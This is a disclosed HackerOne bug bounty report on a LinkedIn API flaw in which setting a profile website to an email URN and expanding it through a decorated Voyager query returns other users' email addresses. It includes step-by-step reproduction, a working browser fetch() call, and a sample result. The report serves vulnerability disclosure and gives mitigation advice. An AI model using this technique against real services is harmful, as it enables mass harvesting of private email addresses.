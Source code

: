 # Entire database of emails exposed through URN injection

## Report Details
- **Report ID**: 1806939
- **URL**: https://hackerone.com/reports/1806939
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-12-15T16:23:54.456Z
- **Disclosed**: 2023-05-22T21:25:37.393Z

## Reporter
- **Username**: ultrapowa
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: linkedin

## Vulnerability Information
Hello LinkedIn,

1. Situation

- The [decoration](https://learn.microsoft.com/en-us/linkedin/shared/api-guide/concepts/decoration?context=linkedin%2Fcontext) feature available to anyone on voyager API allows expanding URN fields.
- The query engine does not check whether a field should be expandable or not. Every field can be expanded.
- It is possible to trigger a URN resolution by assigning an URN value to a text field inside a profile and using a decoration expansion in a voyager query.
- Assigning a text field to `urn:li:fs_emailAddress:[email_id]` and triggering a URN resolution allows an attacker to retrieve the email.
- Email ids are generated sequentially or pseudo-sequentially, as a result the entire database of emails is exposed.

2. Mitigation

I suggest the following:
- It should never be possible for a user to expand a field, unless said field is explicitly allowed to be expanded (good luck with that considering the model size lol)
- There should be an access check on email data accessible through URN resolution

3. Reproduce

- Authenticate to linkedin.com
- Edit your profile, go to contact info, add a website and set the following URL value `urn:li:fs_emailAddress:8519272224`
- Open Chrome console and run the following code after editing the identity param and the csrf token:
```js
await (await fetch("https://www.linkedin.com/voyager/api/identity/dash/profiles?decoration=%28websites*%28url~%29%29&memberIdentity=[public identifier]&q=memberIdentity", {
  "headers": {
    "accept": "application/vnd.linkedin.normalized+json+2.1",
    "accept-language": "en-US,en;q=0.9",
    "csrf-token": "ajax:[your token here]",
    "x-li-deco-include-micro-schema": "true",
    "x-li-lang": "en_US",
    "x-restli-protocol-version": "2.0.0"
  },
  "method": "GET",
  "mode": "cors",
  "credentials": "include"
})).json()
```

Result:
```js
{
    "data": {
        // ...
    },
    "included": [
        {
            "entityUrn": "urn:li:fs_emailAddress:8519272224",
            "confirmed": true,
            "email": "melaa[redacted]@gmail.com",
            "$type": "com.linkedin.voyager.identity.normalizedprofile.EmailAddress",
            "primary": null
        }
    ]
}
```

## Impact

What I'm showing here is a simple showcase attack.
An elaborated attack involving arrays and multiple accounts can probably retrieve millions of emails a day.

## Attachments
No attachments
